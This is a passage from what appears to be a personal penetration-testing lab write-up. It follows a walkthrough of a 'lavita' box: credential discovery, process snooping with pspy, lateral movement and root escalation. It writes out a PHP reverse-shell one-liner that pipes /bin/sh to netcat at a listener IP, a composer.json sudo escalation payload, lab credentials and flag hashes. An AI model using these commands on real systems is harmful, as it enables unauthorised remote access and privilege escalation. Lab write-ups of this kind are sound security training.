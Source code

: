![[Cybersecurity-Resources/images/Pasted image 20241011194844.png]]
- Identified `postfix` file
![[Cybersecurity-Resources/images/Pasted image 20241011193902.png]]
- Identified `mysql` credentials (`lavita:sdfquelw0kly9jgbx92`)
![[Cybersecurity-Resources/images/Pasted image 20241011194047.png]]
- Identified other interesting files
![[Cybersecurity-Resources/images/Pasted image 20241011194148.png]]
- Tested `su skunk` using credentials `skunk:skunk`
![[Cybersecurity-Resources/images/Pasted image 20241011194628.png]]
- Uploaded `pspy32` to target
![[Cybersecurity-Resources/images/Pasted image 20241011195835.png]]
- Ran `./pspy32` and identified processes running for user `skunk` (UID=1001)
![[Cybersecurity-Resources/images/Pasted image 20241011200348.png]]
- Run `ls -lah /var/www/html/lavita/artisan` to check permissions for artisan, and identify that user `www-data` has write access
![[Cybersecurity-Resources/images/Pasted image 20241011201020.png]]
- Ran `cat /var/www/html/lavita/artisan` & identified php file
![[Cybersecurity-Resources/images/Pasted image 20241011201506.png]]
## Lateral Movement vector
- Ran `nc -nvlp 4545` to start netcat listener on port 4545
- Ran `echo "<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.250 4545>/tmp/f'); ?>" > /var/www/html/lavita/artisan` to echo PHP reverse shell script into `artisan` file
- Caught reverse shell with netcat as `skunk` user
![[Cybersecurity-Resources/images/Pasted image 20241011202317.png]]
---
# Privilege Escalation
## Local Enumeration
- `skunk` previously identified as member of `sudo` group, so ran `sudo -l`
![[Cybersecurity-Resources/images/Pasted image 20241011202424.png]]
## Privilege Escalation vector
- Identified [GTFObins](https://gtfobins.github.io/gtfobins/composer/#sudo) for `composer` run by `sudo`, so modified `composer.json` with `echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > composer.json` as `www-data` user
![[Cybersecurity-Resources/images/Pasted image 20241011203853.png]]
- Ran `sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script x` as `skunk` user and gained `root` access
![[Cybersecurity-Resources/images/Pasted image 20241011203943.png]]
- Ran `cat /root/proof.txt` to print `proof.txt`
---
# Trophy & Loot
`local.txt` = `9aca8d958ec6c654109f8bfffe951a19`
`root.txt` = `0d57d7ed54dc6b2b087332f04ff4f26e`